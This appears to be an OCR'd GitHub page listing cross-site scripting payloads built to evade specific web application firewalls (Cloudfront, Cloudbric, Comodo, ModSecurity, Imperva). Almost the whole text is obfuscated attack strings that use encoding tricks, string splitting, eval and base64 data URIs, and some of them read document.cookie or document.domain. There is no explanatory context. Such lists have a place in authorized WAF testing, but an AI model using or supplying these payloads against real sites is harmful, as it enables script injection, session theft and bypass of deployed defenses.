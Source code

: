 ```
[1].map(confirm)'ale'+'rt'()a&Tab;l&Tab;e&Tab;r&Tab;t(1)prompt&lpar;1&rpar;prompt&#40;1&#41;prompt%26%2300000000000000000040;1%26%2300000000000000000041;(prompt())(prompt``)
<svg onload=alert%26%230000000040"1")>
<svg onload=prompt%26%230000000040document.domain)>
<svg onload=prompt%26%23x000000028;document.domain)>
<svg/onrandom=random onload=confirm(1)>
<video onnull=null onmouseover=confirm(1)>
<a id=x tabindex=1 onbeforedeactivate=print(`XSS`)></a><input autofocus>
<img ignored=() src=x onerror=prompt(1)>
<svg onx=() onload=(confirm)(1)>
<--`<img/src=` onerror=confirm``> --!>
<img src=x onerror="a=()=>{c=0;for(i in self){if(/^a[rel]+t$/.test(i)){return c}c++}};self[Object.keys(self)[a()]](document.domain)">
<j id=x style="-webkit-user-modify:read-write" onfocus={window.onerror=eval}throw/0/+name>H</j>#x
'"><iframe srcdoc='%26lt;script>;prompt`${document.domain}`%26lt;/script>'>
'"><img/src/onerror=.1|alert``>
:javascript%3avar{a%3aonerror}%3d{a%3aalert}%3bthrow%2520document.cookie
Function("\x61\x6c\x65\x72\x74\x28\x31\x29")();
```

2. Cloudfront
```
">%0D%0A%0D%0A<x '="foo"><x foo='><img src=x onerror=javascript:alert(`cloudfrontbypass`)//'>
<--`<img%2fsrc%3d` onerror%3dalert(document.domain)> --!>
"><--<img+src= "><svg/onload+alert(document.domain)>> --!>
```

3. Cloudbric
```
<a69/onclick=[1].findIndex(alert)>pew
```

4. Comodo WAF
```
<input/oninput='new Function`confir\u006d\`0\``'>
<p/ondragstart=%27confirm(0)%27.replace(/.+/,eval)%20draggable=True>dragme
```

5. ModSecurity
```
<a href="jav%0Dascript&colon;alert(1)">
```

6. Imperva
```
<input id='a'value='global'><input id='b'value='E'><input 'id='c'value='val'><input id='d'value='aler'><input id='e'value='t(documen'><input id='f'value='t.domain)'><svg+onload[\r\n]=$[a.value+b.value+c.value](d.value+e.value+f.value)>
<x/onclick=globalThis&lsqb;'\u0070r\u006f'+'mpt']&lt;)>clickme
<a/href="j%0A%0Davascript:{var{3:s,2:h,5:a,0:v,4:n,1:e}='earltv'}[self][0][v+a+e+s](e+s+v+h+n)(/infected/.source)" />click
<a69/onclick=write&lpar;&rpar;>pew
<details/ontoggle="self['wind'%2b'ow']['one'%2b'rror']=self['wind'%2b'ow']['ale'%2b'rt'];throw/**/self['doc'%2b'ument']['domain'];"/open>
<svg onload\r\n=$.globalEval("al"+"ert()");>
<svg/onload=self[`aler`%2b`t`]`1`>
%3Cimg%2Fsrc%3D%22x%22%2Fonerror%3D%22prom%5Cu0070t%2526%2523x28%3B%2526%2523x27%3B%2526%2523x58%3B%2526%2523x53%3B%2526%2523x53%3B%2526%2523x27%3B%2526%2523x29%3B%22%3E
<iframe/onload='this["src"]="javas&Tab;cript:al"+"ert``"';>
<img/src=q onerror='new Function`al\ert\`1\``'>
<object data='data:text/html;;;;;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=='></object>
```
